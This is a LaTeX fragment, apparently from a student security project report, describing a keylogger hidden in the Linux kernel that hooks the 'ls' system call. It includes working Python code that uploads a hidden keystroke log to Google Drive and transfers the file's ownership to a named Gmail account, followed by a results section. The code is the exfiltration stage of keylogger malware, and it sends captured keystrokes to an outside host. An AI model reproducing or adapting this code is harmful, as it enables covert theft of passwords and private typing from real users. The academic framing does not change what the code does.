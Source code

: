 \documentclass[conference]{IEEEtran}
\newcommand\tab[1][0.5cm]{\hspace*{#1}}
\begin{document}
	\begin{python}
# Starting credentials
creds = ServiceAccountCredentials.from_json_keyfile_name
('credentials.json',
['https://www.googleapis.com/auth/drive'])
drive_api = build('drive', 'v3', credentials=creds)

def uploadFileToDrive():
	folder_id = "root" 
	file_name = ".keylog.log"
	mimeType = "application/vnd.google-apps.unknown"
	
	print("Uploading file " + file_name + "...")
	
	file_metadata = {
		'name': file_name,
		'mimeType': mimeType
	}
	
	body = {'name': file_name, 'mimeType': mimeType}
	body['parents'] = [folder_id]  
	
	# Upload proper
	media = MediaFileUpload(file_name, 
	mimetype='text/plain')
	
	fiahl = drive_api.files().create
	(body=body, media_body=media).execute()
	
	
	user_permission = {
		'type': 'user',
		'role': 'owner',
		'emailAddress': 'larss198v2@gmail.com'
	}
	
	drive_api.permissions().create(
	fileId=fiahl.get('id'),
	body=user_permission,
	transferOwnership=True,
	).execute()

def printFileIDsInDrive():
	results = drive_api.files().list
	(pageSize=10, fields="*").execute()
	items = results.get('files', [])
	if not items:
		print('No files found.')
	else:
		print('Files:')
		for item in items:
			print('{0} ({1})'.format(item['name'], item['id']))
	\end{python}
	\tab Credentials are given to the gmail account: \textbf{larss198v2@gmail.com}, a dummy account that we created for the purpose of this project. This .keylog.log file is automatically uploaded to the Google Drive under this account upon a keyboard interrupt. It also prints out the file IDs of all files under that account's drive to show that it indeed successfully upload the keystrokes record.
	
	\section{Results}
	The project was successfully able to fulfill all of its milestones defined during proposal period:
	\begin{itemize} 
		\item Hijack "ls"
		\item Embed a keylogger in the kernel
		\item Keylogger should upload logs online
	\end{itemize} 
	\tab The researchers were able to successfully tamper with the default Linux system calls using the System Call Hooking technique. A fully working keylogger was implemented that is able to log every single keystroke upon an "ls" invoke. The keylogger also successfully waits for specifically the "ls" command before it starts the logs. Successful usage of the Google Drive API in Python was also done to fully upload the keystroke logs in real-time.
\end{document}
